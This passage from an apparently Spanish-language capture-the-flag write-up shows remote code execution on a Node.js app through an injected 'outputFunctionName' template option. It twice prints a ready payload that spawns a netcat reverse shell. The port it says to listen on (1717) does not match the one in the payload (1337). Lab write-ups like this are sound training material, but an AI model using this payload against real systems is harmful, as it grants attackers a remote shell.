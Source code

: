 ![Whiterose yw4rf](whiterose-22.png)

Al investigar más sobre esta vulnerabilidad encuentro que es posible obtener **RCE** mediante la inyección de código arbitrario: `&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s`

Para obtener **RCE** mediante una **Reverse Shell** nos pondremos en escucha mediante el **Netcat** por el puerto **1717**

![Whiterose yw4rf](whiterose-23.png)

Luego de ponernos en escucha mediante **Netcat** lo que haremos es enviar la petición `name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s`

![Whiterose yw4rf](whiterose-24.png)
